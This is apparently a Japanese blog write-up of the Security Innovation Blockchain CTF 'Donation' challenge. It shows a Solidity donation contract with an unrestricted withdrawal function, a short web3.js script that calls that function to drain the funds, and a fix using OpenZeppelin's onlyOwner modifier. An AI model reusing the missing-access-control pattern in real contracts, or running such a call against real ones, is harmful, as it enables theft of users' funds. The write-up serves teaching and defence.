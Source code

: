 +++
title = "Security Innovation Blockchain CTF - Donation"
date = "2022-05-11"
tags = [
    "security",
    "ctf",
]
+++

#### 概要

[Security Innovation Blockchain CTF](https://blockchain-ctf.securityinnovation.com/)

Security Innovationという企業が開催している、常設のCTFがあります。
今回は、[Donation](https://blockchain-ctf.securityinnovation.com/#/game/0)という問題を解きました。

#### 問題

問題を開くと、寄付をするためのアプリケーションであることが分かります。

Donate 0.1 Ether!をクリックするとMetaMaskが起動し、0.1 Etherが寄付されます。

<img src=./dapps.png><br>

このアプリケーションのソースコードとして、以下のSolidityファイルが渡されます。

```solidity
pragma solidity 0.4.24;

import "../CtfFramework.sol";
import "../../node_modules/openzeppelin-solidity/contracts/math/SafeMath.sol";

contract Donation is CtfFramework{

    using SafeMath for uint256;

    uint256 public funds;

    constructor(address _ctfLauncher, address _player) public payable
        CtfFramework(_ctfLauncher, _player)
    {
        funds = funds.add(msg.value);
    }

    function() external payable ctf{
        funds = funds.add(msg.value);
    }

    function withdrawDonationsFromTheSuckersWhoFellForIt() external ctf{
        msg.sender.transfer(funds);
        funds = 0;
    }

}
```

コードを読んでみると、`withdrawDonationsFromTheSuckersWhoFellForIt`という関数があるのが分かります。

この関数は、`msg.sender`に今まで寄付された`funds`を送信する関数で、呼び出し可能なユーザーに制限がありません。

そのため、この関数を呼び出すことで、今まで寄付されたEthereumを引き出すことが可能になります。

#### エクスプロイト

デプロイされたコントラクトの呼び出しには、[MyCrypto](https://mycrypto.com)などが利用できますが、
今回はあえて[web3.js](https://web3js.readthedocs.io/en/v1.7.3/)を使って書いてみます。

```solidity
const Web3 = require('web3')
const HDWalletProvider = require("@truffle/hdwallet-provider")
const fs = require('fs');

require('dotenv').config()

const web3 = new Web3(new HDWalletProvider(process.env.PRIVATE_KEY, process.env.PROVIDER_URL))
const abi = JSON.parse(fs.readFileSync('./src/abi.json'))
const contract = new web3.eth.Contract(abi, '0xaa51c14d9ff94ee5a5674ee0af8257f1665956f3')

// withdrawDonationsFromTheSuckersWhoFellForIt関数の呼び出し
const option = {from: '0xd7544D522B75347b48917649ebc5D334b3D43445'}
contract.methods.withdrawDonationsFromTheSuckersWhoFellForIt().send(option)
```

#### どう実装されているべきか

今回の問題は、コントラクトのオーナーのみが利用できるべき機能が、誰でも呼び出し可能になってしまっていることに問題があります。
そのため、コントラクト側でオーナーか否かの判定を入れれば良いことになります。

SolidityにはOpenZeppelinというライブラリがあり、
このライブラリには[Ownable](https://github.com/OpenZeppelin/openzeppelin-contracts/blob/master/contracts/access/Ownable.sol)というコントラクトがあります。

以下のように、`onlyOwner`という`modifier`をつけることで、デプロイしたオーナーのみが関数を呼び出せるように制限することが可能です。

詳細はドキュメントを参照してください。

https://docs.openzeppelin.com/contracts/2.x/access-control

```solidity
import "@openzeppelin/contracts/ownership/Ownable.sol";

contract A is Ownable {
    function somethingSecret() public onlyOwner {
        // オーナーからの呼び出しのみを許可
    }
}
```
